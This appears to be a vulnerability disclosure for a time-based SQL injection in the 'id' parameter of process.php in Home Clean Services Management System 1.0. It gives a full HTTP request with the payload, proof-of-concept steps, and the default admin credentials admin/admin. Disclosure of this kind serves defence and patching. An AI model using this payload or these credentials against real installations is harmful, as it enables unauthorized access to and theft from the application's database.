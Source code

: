 # Home Clean Services Management System process.php id SQL injection

**Exploit Title: Home Clean Services Management System process.php id SQL inject**

**Exploit Author: https://github.com/xiaosguang/cve/**

**Vendor Homepage: https://www.sourcecodester.com/php/15293/home-clean-service-free-source-code.html**

**Software Link: https://www.sourcecodester.com/download-code?nid=15293&title=Home+Clean+Service+System+in+PHP+Free+Source+Code**

**Version: Home Clean Services Management System 1.0**

**Tested on: Windows, Apache ,Mysql**

**Description**

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection Home Clean Services Management System does not filter the content correctly at the "process.php" id module, resulting in the generation of SQL injection.

    Payload used:

```
GET /HCS/public_html/admin/process.php?id=21'+and+sleep(3)--+&name=ALvin%20Gumatay HTTP/1.1
Host: aaa.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: http://aaa.com/HCS/public_html/admin/manage_house.php
Connection: keep-alive
Cookie: PHPSESSID=a61gtlsps39bcudp17o7o3b0k7
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```



## Proof of Concept

1. Login the CMS. Admin Default Access: Email: admin Password: admin

2. Open Page http://aaa.com/HCS/public_html/admin/process.php?id=21&name=ALvin%20Gumatay
![image-20250106061315590](https://github.com/user-attachments/assets/98472ccb-916a-42de-ad9d-827e04f2b087)


Change the parameter 21 of id to 21'+and+sleep(3)--+, and find that the sleep function is executed.

![image-20250106061825321](https://github.com/user-attachments/assets/7c34abf8-1377-4a4d-b2fa-838fb6494209)


![image-20250106061928651](https://github.com/user-attachments/assets/04fb3cc4-f648-48f2-aa99-71250144dfcb)


